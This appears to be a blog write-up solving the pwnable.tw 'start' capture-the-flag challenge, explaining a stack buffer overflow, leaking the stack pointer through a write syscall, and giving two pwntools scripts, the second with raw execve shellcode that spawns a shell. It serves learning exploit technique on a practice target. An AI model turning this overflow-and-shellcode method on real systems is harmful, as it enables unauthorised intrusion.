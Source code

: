 ```yaml
---
title: "start"
event: pwnable.tw
difficulty: easy
date: 2020-07-17
draft: false
tags: ["pwnable.tw"]
---
```



Here our main objective is to get a shell. The bug is plain and simple, it is an overflow to control the return address.

<!--more-->

![](/images/pwnable1/pwnable1.png)

## Solution:

First I check the mitigations :

![](/images/pwnable1/pwnable2.png)

So I think it's going to be fun !! As we have the permission to execute the stack (NX disabled). There is also no PIE so we don't have to worry about the address changing every time :)
Now, let us run the binary and see what is happening :>

![](/images/pwnable1/pwnable3.png)

So it's simple just asking input and printing something. Now its time to see the assembly behind this binary.

![](/images/pwnable1/pwnable4.png)

So we can observe that all the registers are being emptied and then 5 values are beings pushed to the stack.
If we examine them we can see that they are the strings that are printed when we run the binary.
Math → 5 pushes are made and 4 bytes are taken for each push so a total of 20 bytes is taken by the binary to store it :P.
Also ``INT 0x80`` is equivalent to syscall. We can observe 2 syscalls being called

![](/images/pwnable1/pwnable5.png)

The first syscall is used to make the write. (For printing the string)

![](/images/pwnable1/pwnable6.png)

The second syscall is used to call read ( Probably to take our input ). Now let's see what we can do to get root access !!

I hope you find the offset by yourself or try pattern create in gdb-peda. :)

## Idea:

* We have to overflow to the return address and then we have to somehow leak the stack pointer (ESP)
* So if we get the stack pointers address then we can place the shellcode there and then point the EIP to that address to give us a shell!

``Remember the write syscall prints the buffer pointed by the ECX.``

* After the syscall, the stack is cleared as they call the add instruction (It removes the 20 bytes)

## Crafting the Exploit:

* first 20 bytes to fill the buffer then put the address of move ESP to ECX.
* So first input will give the ESP.
* Next, we place the shellcode (from shellstorm.org) then execute it.
* We don't have to worry about the shift of the stack because there is no PIE

```py
from pwn import *
p = remote('chall.pwnable.tw', 10000)
print(p.read())
buf = 'A'*20
buf += p32(0x08048087)
p.send(buf)
esp = unpack(p.read()[:4])
print hex(esp)
p.interactive()

```

note: u32 is the opposite of p32 this returns the number and then we convert the number to hex. Also, we read the first 4 bytes the server sends us.

Output: ``0xff819750``

## Final Exploitation

* We place the shellcode then just execute it, in the read that followed the write.

```py

from pwn import *
p = remote('chall.pwnable.tw', 10000)
print(p.read())
buf = 'A'*20
buf += p32(0x08048087)
p.send(buf)
esp = unpack(p.read()[:4])
shellcode = b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'
#new exploit
buf = 'a'*20
buf += p32(esp+20)
buf += shellcode
p.send(buf)
p.interactive()

```

![](/images/pwnable1/pwnable7.png)

I hope you liked the write-up. More writeups on its way.
